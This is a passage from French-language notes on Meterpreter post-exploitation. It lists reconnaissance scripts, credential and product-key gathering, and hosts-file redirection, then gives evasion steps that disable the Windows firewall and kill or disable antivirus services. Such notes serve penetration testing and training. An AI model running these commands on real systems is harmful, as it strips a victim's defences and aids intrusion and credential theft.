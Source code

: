 - run checkvm : Vérifie si la cible s'exécute sur une machine virtuelle.
- run getcountermeasure : Informations sur les contre-mesures de sécurité (pare-feu, filtres, etc.).
- run get_env : Informations sur l'environnement (chemin d'accès, architecture, etc.).

Réseau :

- idletime : Vérifie si la cible est active.
- ipconfig/ifconfig : Affiche la configuration IP de la cible.
- route : Affiche les routes utilisées par les paquets réseau.
- run get local subnets : Affiche le masque réseau.
- run getgui : Informations sur l'interface graphique de la cible (fenêtres ouvertes, etc.).

Manipulation du fichier "hosts" :

- run hostsedit : Modifie le fichier "hosts" pour associer des noms de domaine à des adresses IP (possibilité de redirection). [https://www.darkoperator.com/blog/2009/6/14/hostsedit-meterpreter-script.html](https://www.darkoperator.com/blog/2009/6/14/hostsedit-meterpreter-script.html "https://www.darkoperator.com/blog/2009/6/14/hostsedit-meterpreter-script.html")

Utilisateurs et applications :

- run enum_logged_on_users : Liste les utilisateurs connectés.
- run get_application_list : Liste les applications en cours d'exécution.

Windows spécifique :

- run windows/gather/forensics/enum_drives : Liste les pilotes de périphériques et leur taille (Windows uniquement).
- run windows/gather/enum_ms_product_keys : Affiche la clé de produit Windows.
- run windows/gather/credentials/windows_autologin : Vérifie si la cible se connecte automatiquement sans mot de passe.
- run winenum : Enumère des informations précieuses (résultats stockés dans /root/.msf4/logs/scripts/winenum/).

Effacer les traces (évasion) :

### Désactiver le firewall :

1. Dans un shell :
    
    - netsh firewall show opmode : Pour simplement voir la configurations du firewall.
    - netsh firewall set opmode mode=disable : Désactiver le firewall windows.

### Désactiver l'antivirus :

- run killav : désactive les processus des antivirus.
    
- Désactiver l'antivirus au démarrage :
    
    1. Sur windows, tasklist /svc puis trouver le/les processus de l'antivirus (avg par exemple)
        
    2. sc queryex avgwd (par exemple) pour afficher propriété du service. On peut voir le state (not_stoppable, not_pausable...)
        
    3. Pour chaque processus de l'antivirus, faire sc config avgwd start= disabled
        
    4. Enfin, pour tester si ça fonctionne, retourner dans meterpreter (exit) puis faire reboot.
        
